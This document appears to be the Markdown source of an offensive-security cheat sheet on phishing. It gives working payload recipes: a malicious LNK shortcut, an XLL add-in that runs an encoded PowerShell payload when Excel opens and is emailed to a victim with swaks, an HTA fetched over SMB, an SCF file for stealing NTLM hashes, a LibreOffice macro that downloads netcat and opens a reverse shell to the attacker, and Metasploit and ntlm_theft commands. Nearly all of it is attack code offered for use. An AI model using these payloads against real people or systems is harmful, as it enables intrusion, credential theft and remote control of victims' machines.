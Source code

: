 ```yaml
---
title: "Phishing"
date: 2025-7-25
tags: ["Phishing", "Social Engineering", "Responder", "Phishing Campaigns", "Email", "Xll", "Excel", "Hta", "Shortcut", "Windows", "Odt", "Libre", "Vba", "Ntlm_Theft", "Pdf", "Ntlm"]
---
```


{{< tab set1 tab1 >}}lnk{{< /tab >}}
{{< tab set1 tab2 >}}xll{{< /tab >}}
{{< tab set1 tab3 >}}hta{{< /tab >}}
{{< tab set1 tab4 >}}scf{{< /tab >}}
{{< tab set1 tab5 >}}odt{{< /tab >}}
{{< tab set1 tab6 >}}pdf{{< /tab >}}
{{< tab set1 tab7 >}}others{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
$obj = New-Object -ComObject WScript.Shell
```

```console
$link = $obj.CreateShortcut("C:\ProgramData\Calculator.lnk")
```

```console
$link.TargetPath = "C:\ProgramData\rev.exe"
```

```console
$link.Save()
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### shell.c

```console
#include <windows.h>

__declspec(dllexport) void __cdecl xlAutoOpen(void); 

void __cdecl xlAutoOpen() {
    // Triggers when Excel opens
    WinExec("<POWERSHELL_3_BASE64>", 1); // Replace your payload
}

BOOL APIENTRY DllMain( HMODULE hModule,
                    DWORD  ul_reason_for_call,
                    LPVOID lpReserved
                    )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

#### 1. Compile shell.c in Linux

```console
x86_64-w64-mingw32-gcc -fPIC -shared -o shell.xll shell.c -luser32
```

#### 2. Send Email with the Malicious xll File

```console
swaks --to '<VICTIM>@<DOMAIN>' --from 'attacker@<DOMAIN>' --server '<DOMAIN>' --header 'This is not a malicious file' --body 'This is not a malicious file' --attach '@shell.xll'
```

<small>*Ref: [revshells.com](https://www.revshells.com/)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

#### 1. Start a Local SMB Server

```console
# In our local Linux machine
impacket-smbserver -smb2support share .
```

#### 2. Create a Malicious hta File in local Linux SMB Share

```console
<html>
    <head>
        <HTA:APPLICATION ID="shell">
        <script language="javascript">
            var c = "<POWERSHELL_3_BASE64>";  
            new ActiveXObject('WScript.Shell').Run(c, 0, true); 
        </script>
    </head>
    <body>
        <script>self.close();</script>
    </body>
</html>
```

#### 3. Create a Shortcut File in Target Windows

```console
# In target Windows machine (powershell)
$url = "file://<LOCAL_IP>/share/shell.hta"
```

```console
$shortcutPath = "C:\ProgramData\shell.url"
```

```console
$shortcutContent = "[InternetShortcut]`r`nURL=$url"
```

```console
Set-Content -Path $shortcutPath -Value $shortcutContent
```

<small>*Ref: [revshells.com](https://www.revshells.com/)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab4 >}}

### If Any Interaction from Target to SMB Share

#### 1. Start Responder

```console
# In our local Linux machine
sudo responder -I tun0
```

#### 2. Create a Malicious Shortcut

```console
[Shell]
Command=2

IconFile=\\<LOCAL_IP>\icon
```

#### 3. Upload the Malicious Shortcut

```console
# In our local Linux machine
smbclient -N \\\\<TARGET>\\share\\
```

```console
mput evil.scf
```

{{< /tabcontent >}}
{{< tabcontent set1 tab5 >}}

```console
+--------------------------------------------------------+
| 1. "Tools" > "Macros" > "Organize Macros" > "Basic..." |
| 2. "Untitled 1" > "Standard" > "New"                   |
| 3. "Paste the code below"                              |
+--------------------------------------------------------+
```

<br>

```console
Sub OnLoad
    shell("cmd /c certutil -urlcache -split -f http://<LOCAL_IP>/nc64.exe C:\programdata\nc64.exe && C:\programdata\nc64.exe -e cmd <LOCAL_IP> <LOCAL_PORT>")
End Sub
```

<br>

```console
+-----------------------------------------------------------+
| 4. "Tools" > "Organize Macros" > "Basic..." > "Assign..." |
| 5. "Events" > "Open Document" > "OK"                      |
| 6. "SAVE"                                                 |
+-----------------------------------------------------------+
```

{{< /tabcontent >}}
{{< tabcontent set1 tab6 >}}

```console
msfconsole -q
```

```console
search badpdf
```

```console
set filename evil.pdf
```

```console
set lhost <LOCAL_IP>
```

```console
exploit
```

{{< /tabcontent >}}
{{< tabcontent set1 tab7 >}}

```console
python3 ntlm_theft.py -g all -s <LOCAL_IP> -f test
```

<small>*Ref: [ntlm_theft](https://github.com/Greenwolf/ntlm_theft)*</small>

{{< /tabcontent >}}
